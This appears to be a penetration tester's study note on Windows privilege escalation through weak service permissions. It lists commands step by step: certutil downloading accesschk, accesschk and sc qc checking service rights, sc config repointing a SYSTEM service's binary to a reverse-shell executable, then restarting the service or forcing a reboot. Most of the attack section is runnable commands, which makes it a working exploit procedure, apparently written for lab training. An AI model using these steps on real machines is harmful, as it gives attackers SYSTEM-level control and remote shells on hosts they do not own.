


# Service Exploits - Insecure Service Permissions

Two conditions to be met:

1. A service running as SYSTEM.
2. The current user has permission to modify the configurations of that service,

Windows Sysinternals can be found:
- https://docs.microsoft.com/en-us/sysinternals/downloads/
- https://live.sysinternals.com/ (better to download direclty)

		certutil -urlcache -f https://live.sysinternals.com/accesschk.exe accesschk.exe
	
	
	Check for user `user` permissions on all services 
	
		accesschk.exe /accepteula -uwcqv <username> *

	Note if the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

	**Examples**
	
	
	
	
	Query the service and note if it runs with SYSTEM privileges (SERVICE_START_NAME):
		
		sc qc service name
		
	Exmaple
	
		sc qc daclsvc
	
	
	
	**Since the user has privilege to modify the service AND the service runs as SYSTEM, he can change the path of the binary to a malicious binary that will run in SYSTEM privilege**
	
	
	replace the path of the service with the path of the reverse shell
	
		sc config daclsvc binpath= "\"<Path of reverse shell places on the target>""
		
	Example
	
		sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
		
	Restart the service
	
		net start <Service-Name>
		
	Example
	
		net start daclsvc
		

If unable to start the service try rebooting

	shutdown /r /t 0

https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/